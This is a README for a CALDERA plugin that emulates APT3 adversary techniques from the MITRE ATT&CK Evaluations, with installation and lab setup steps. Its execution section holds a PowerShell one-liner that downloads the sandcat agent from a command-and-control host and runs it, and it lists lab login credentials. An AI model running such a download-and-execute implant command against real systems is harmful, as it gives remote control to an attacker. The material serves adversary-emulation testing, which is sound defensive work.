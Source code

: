 # CALDERA plugin: Eval

## Overview

A plugin supplying CALDERA with the TTPs used within the ATT&CK Evaluations Round 1 (APT3).
For more information see https://attackevals.mitre.org/about-attack-evaluations.html

1. Plugin Installation
2. Lab Setup
3. Execution

## Installation
Clone the Eval plugin into the caldera/plugin directory
```commandline
git clone https://github.com/mitre-attack/evals_caldera.git
```
Add Eval plugin to CALDERA config `conf/local.yml`
```yaml
plugins:
  - evals_caldera
```

Fill out facts in `data/facts/` specific to your setup.

## Environment Setup
[Full Round 1 Environment](https://attackevals.mitre.org/methodology/round1/environment.html)

Minimum requirements:
- Initial host exists within a windows domain
- Remote shared drive is mounted

## Execution

Please read the [full documentation](https://github.com/mitre/caldera/wiki/Plugins-evals) for this plugin.

## The Shire Mordor Environment

### Setup
[Shire CloudFormation Deployment](https://blacksmith.readthedocs.io/en/latest/mordor_shire.html)

[Shire Mordor Environment](https://mordor.readthedocs.io/en/latest/mordor_shire.html)

### Execution

1. RDP to the public ip of IT001.shire.com
   * Login - Administrator:P1ls3n! 
   * Launch an admin CMD
   * Close out of the RDP sesion but do not logout the Administrator
2. RDP to the public ip of IT001.shire.com
   * Login - pgustavo:W1n1!2019
   * Launch an admin CMD and a non-admin PowerShell
   * Execute the PowerShell command: `$url="http://172.18.39.8:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://172.18.39.8:8888 -group evals_caldera -v;`
   * The 54ndc47 agent should now be checked in with CALDERA (172.18.39.8)

3. Browse to the CALDERA UI `(http://CALDERAPublicIp:8888)`
   * Login - wardog:B3tt3r!
   * Start an operation using the [ATT&CK Eval APT3 - Full](https://github.com/d4weiss/evals_caldera/blob/master/data/adversaries/ef93dd1b-809b-4a0b-b686-fef549cabbe4.yml) adversary profile
